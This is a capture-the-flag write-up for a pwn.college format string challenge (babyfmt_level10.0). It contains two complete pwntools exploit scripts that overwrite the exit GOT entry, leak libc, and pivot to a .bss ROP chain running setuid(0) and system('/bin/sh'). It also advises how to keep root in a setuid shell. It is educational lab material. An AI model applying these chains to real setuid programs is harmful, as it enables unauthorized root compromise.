





# Format String Attack - Format String Attack Once (Partial RELRO + no PIE)

This time there is no **win** function. So the challenge expect us to redirect code execution somewhere else.

My opinion, this is where fun starts.

## babyfmt_level10.0

This challenge has **Partial RELRO + no PIE** protections. **GOT entries** lies in writable memory map and addresses are constant. 

This variant the format string attack can be executed only once by the binary. Is it ?

```css
root@a9b395169132:/host# checksec babyfmt_level10.0
[*] '/host/babyfmt_level10.0'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As shown below, **printf** called and than calling **exit**. Same as previous one.



There are several ways to abuse this one. But for simplicity the execution will be looped.
If **exit got entry** written with **func** address, the program never exit and that means infinite format string attack. 

### find offset and padlen values


```css
[+] Receiving all data: Done (174B)
[DEBUG] Received 0xae bytes:
    b'Here is the result:\n'
    b'Your input is:                                                                                             \n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161616361616162END'
[*] Process '/host/babyfmt_level10.0' stopped with exit code 0 (pid 279)
[*] Found format string offset: 46
[+] User input starts at  : 46
[+] Needed pads           :4
[+] Numbwritten           :0
```

### Write exit got entry -> func address

The offset, padlen and numbwritten values detected as previous [[08 - Format String Attack - Redirect Code Execution to win (Full Relro+PIE Enabled)#^numbwritten-calculation|numbwritten calculation]].




### Leak LIBC Address (write+23)

Same as previous one, the 3rd offset is the write+23 address. This for the readers practicing other potential targets, i decided to leak also canary value.



### Finding suitable writable memory map (bss)

At this point everything is ready, the only needing is finding writable memory map and fill there. Generally chosen **.bss segment**. 

```css
root@a9b395169132:/host# readelf -S babyfmt_level10.0|grep -A3 -B3 '.bss'
       0000000000000070  0000000000000008  WA       0     0     8
  [25] .data             PROGBITS         0000000000404070  00003070
       0000000000000010  0000000000000000  WA       0     0     8
  [26] .bss              NOBITS           0000000000404080  00003080
       0000000000000068  0000000000000000  WA       0     0     32
  [27] .comment          PROGBITS         0000000000000000  00003080
       000000000000002b  0000000000000001  MS       0     0     1
```

The **.bss** segment starts at `0x404080`. One important thing to note: since the binary repeatedly calls functions like `printf`, `read`, `puts`, and `memset` through `func`, overwriting the **stdin**, **stdout**, or **stderr** pointers in the **.bss** section can cause unintended crashes or behavior.

```css
pwndbg> tele 0x404080 32
00:0000│     0x404080 (stdout@@GLIBC_2.2.5) —▸ 0x7f0b57b6d6a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0008│     0x404088 ◂— 0
02:0010│     0x404090 (stdin@@GLIBC_2.2.5) —▸ 0x7f0b57b6c980 (_IO_2_1_stdin_) ◂— 0xfbad208b
03:0018│     0x404098 ◂— 0
04:0020│     0x4040a0 (stderr@@GLIBC_2.2.5) —▸ 0x7f0b57b6d5c0 (_IO_2_1_stderr_) ◂— 0xfbad2087
```

I chose as target address **exe.bss()+0x680 = 0x404700**.

### Controlling RIP Register

Preparations mostly done. Now its decided how to get control of RIP into controlled area.
To achieve that, decided to overwrite **printf**'s return value in the stack.

> Why this technique ?
>> The reason, stack values are known. This means there are several simple ways to get the job done. 
>> 1. The gadgets can be written into controlled area via format string abuse
>> 2. The gadgets can be written into stack via read and than jump into that stack area.

If stack addresses weren’t known, we’d pivot to **non-stack control points** instead. A **ret2dlresolve** chain is often the next step: by crafting fake relocation, symbol, and string table entries in a writable region, then invoking the PLT resolver, you can resolve arbitrary functions at runtime even if they weren’t originally imported.

After leaking libc’s base address, late-exit hooks such as **`__exit_funcs`**, **`atexit`**, or **`tls_dtor_list`** may become viable targets, since they hold function pointers executed at program shutdown and can still reside in writable libc data segments on some builds.

Beyond direct function-pointer overwrites, **FSOP (File Structure Oriented Programming)** can be used on older or un-hardened libcs: by forging `_IO_FILE` structures and manipulating the `_IO_list_all` or vtables, attackers can redirect control flow when standard I/O cleanup routines run.

And when ROP gadgets are limited or awkward to use, techniques like **ret2csu** or compiler-inserted constructor/destructor stubs in `__libc_csu_init` can help bootstrap controlled function calls or info-leaks by setting up multiple registers at once. Other modern pivots include abusing **GOT entries** under Partial RELRO, manipulating **dynamic linker hooks** (`_dl_fini`, `_rtld_global` structures), or crafting **SROP** chains to directly control the CPU context via `sigreturn`.

The shared PoC script, overwriting **printf** return address in the stack and +8 bytes.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level10.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level10.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+444
continue
c
c
si
nextret
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'printf on your input and then exit.\n', payload)

io = start()

####################################
####### Redirect exit to func ######
####################################

f = FmtStr(send_fmt, offset=46, padlen=4, numbwritten=0x6c)
f.write(exe.got['exit'], exe.sym.func)
f.execute_writes()


####################################
#### Leak Part #####################
####################################

payload = flat('%3$p|%161$p|%164$p|')
send_fmt(payload)
io.recvuntil(b'Your input is:')
io.recvline()

leaks = io.recvline().split(b'|')

leak_write23= int(leaks[0], 16)
leak_canary = int(leaks[1], 16)
rbp_addr    = int(leaks[2], 16)-0xa00

libc.address = leak_write23 - 0x10e297 # offset of write+23

success(f'LIBC Base Address: {libc.address:#x}')
success(f'Canary Value     : {leak_canary:#x}')
success(f'RBP Address      : {rbp_addr:#x}')

####################################
#### Write Part ####################
####################################

target_address = exe.bss()+0x680

success(f'Target address: {target_address:#x}')

###### rop chain generation ########
binsh = next(libc.search(b'/bin/sh\0'))

rop = ROP([exe, libc])

pop_rdi     = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsp     = rop.find_gadget(['pop rsp', 'ret'])[0]
ret         = rop.find_gadget(['ret'])[0]

f.write(rbp_addr-0x4f8, pop_rsp)        # ---> printf return address
f.write(rbp_addr-0x4f0, target_address) # ---> printf return address+8
f.write(target_address, 0xdeadbabe)

f.execute_writes()

io.interactive()

```

How the calculation works explained below. 

After executing previous script, the return address of **printf** points to **pop rsp; ret** gadget.
The distance between **printf**'s return address and **rbp address** is : **rbp_address-0x4f8: return address of printf**.




Continue to execution will cause segmentation of on **RIP=0xdeadbabe**.

```css
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbabe in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────
 RAX  0x2aa
 RBX  0x2020202020202020 ('        ')
 RCX  0
 RDX  0
 RDI  0x7f844a7597e0 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x7fffdd316ab0 ◂— 0x706e692072756f59 ('Your inp')
 R8   0x2aa
 R9   0x2aa
 R10  0xa084ab0 ◂— 0x4a758723
 R11  0x246
 R12  0x401190 (_start) ◂— endbr64 
 R13  0x7fffdd31a180 ◂— 1
 R14  0
 R15  0
 RBP  0x7fffdd319640 —▸ 0x7fffdd319b40 —▸ 0x7fffdd31a040 —▸ 0x7fffdd31a090 ◂— 0
*RSP  0x404708 ◂— 0
*RIP  0xdeadbabe
─────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────
Invalid address 0xdeadbabe
```

### get_flag.py

After taking control of RIP, rest is generating **ROP Chain** and wait for shell.

> Note for reader:
>> In the pwn.college setup the challenge binary is **setuid-root**. If you spawn a shell directly (e.g., via `system("/bin/sh")`), most shells detect they were invoked from a setuid context and **drop privileges to your real UID** for safety. 
>> 
>> To retain privileges, first make the real/effective/saved UIDs all zero (e.g., call `setuid(0)` or `setresuid(0,0,0)`) **before** `execve`-ing a shell; alternatively, exec a shell in _privileged mode_ (e.g., `bash -p`) so it doesn’t discard the elevated EUID. Otherwise, your “root shell” will immediately lose root.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level10.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level10.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+444
continue
c
c
si
nextret
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'printf on your input and then exit.\n', payload)

io = start()

####################################
####### Redirect exit to func ######
####################################

f = FmtStr(send_fmt, offset=46, padlen=4, numbwritten=0x6c)
f.write(exe.got['exit'], exe.sym.func)
f.execute_writes()


####################################
#### Leak Part #####################
####################################

payload = flat('%3$p|%161$p|%164$p|')
send_fmt(payload)
io.recvuntil(b'Your input is:')
io.recvline()

leaks = io.recvline().split(b'|')

leak_write23= int(leaks[0], 16)
leak_canary = int(leaks[1], 16)
rbp_addr    = int(leaks[2], 16)-0xa00

libc.address = leak_write23 - 0x10e297 # offset of write+23

success(f'LIBC Base Address: {libc.address:#x}')
success(f'Canary Value     : {leak_canary:#x}')
success(f'RBP Address      : {rbp_addr:#x}')
success(f'Exe Base Address : {exe.address:#x}')

####################################
#### Write Part ####################
####################################

target_address = exe.bss()+0x680

success(f'Target address: {target_address:#x}')

###### rop chain generation ########
rop = ROP([exe, libc])

binsh = next(libc.search(b'/bin/sh\0'))
ret         = rop.find_gadget(['ret'])[0]

rop.call('setuid', [0])
rop.raw(ret)
rop.call(libc.sym.system, [binsh])

#############################################
#### write ropchain into .bss segment #######
#############################################

for idx, c in enumerate(rop.build()):
    f.write(target_address+(8*idx), c)


######## redirect code execution ##################
pop_rsp     = rop.find_gadget(['pop rsp', 'ret'])[0]


f.write(rbp_addr-0x4f8, pop_rsp)        # ---> printf return address
f.write(rbp_addr-0x4f0, target_address) # ---> printf return address+8
#f.write(target_address, 0xdeadbabe)

f.execute_writes()

io.interactive()

```

**The Result:**




## References

Red Hat blog explaining RELRO modes, GOT/PLT relocation, and memory protections  
[RELRO (Partial vs Full) and GOT overwrites](https://access.redhat.com/blogs/766093/posts/1975793)

Basics of overwriting GOT entries to redirect control flow  
[GOT/PLT primer for pwning](https://outflux.net/blog/archives/2014/01/27/fun-with-pltgot/)

Detailed GOT/PLT behavior for exploitation  
[All about the GOT (ELF internals)](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

Using fake relocation tables to call arbitrary functions via the dynamic linker  
[ret2dlresolve technique overview](https://dhavalkapil.com/blogs/ret2dl-resolve/)

How to hijack exit handlers for code execution  
[Abusing exit handlers](https://outflux.net/blog/archives/2014/01/27/fun-with-pltgot/#exit-handlers)

Exploiting libc exit functions and destructors  
[Notes on __exit_funcs / tls_dtor_list](https://research.checkpoint.com/2020/heap-exploitation-on-modern-linux/)

Forging _IO_FILE structures for exploitation (File Structure Oriented Programming)  
[FSOP context on modern glibc](https://sploitfun.wordpress.com/2015/06/26/fsop-file-structure-oriented-programming/)

Explanation of the endbr64 instruction for Intel CET IBT  
[What endbr64 does (IBT)](https://lwn.net/Articles/793253/)

Presentation on CET, IBT, and SHSTK on Linux  
[CET slide deck (Linux Plumbers)](https://linuxplumbersconf.org/event/4/contributions/547/)

Building ROP chains with pwntools, including ret2csu support  
[Pwntools ROP API docs](https://docs.pwntools.com/en/stable/rop/rop.html)

Sigreturn Oriented Programming with pwntools  
[Pwntools SROP helper docs](https://docs.pwntools.com/en/stable/rop/srop.html)

Official AMD64 System V ABI documentation  
[SysV AMD64 ABI doc (Linux)](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)

Practical summary of SysV calling conventions  
[Calling conventions summary (OSDev)](https://wiki.osdev.org/System_V_ABI)

Bash documentation on privilege dropping for setuid programs  
[Shells drop privileges when started setuid](https://www.gnu.org/software/bash/manual/bash.html#Bash-Startup-Files)

Dash man page note on setuid privilege behavior  
[Dash shell drops setuid privileges](https://man7.org/linux/man-pages/man1/dash.1.html)

MITRE ATT&CK technique for exploiting setuid binaries  
[MITRE ATT&CK on setuid abuse](https://attack.mitre.org/techniques/T1548/001/)

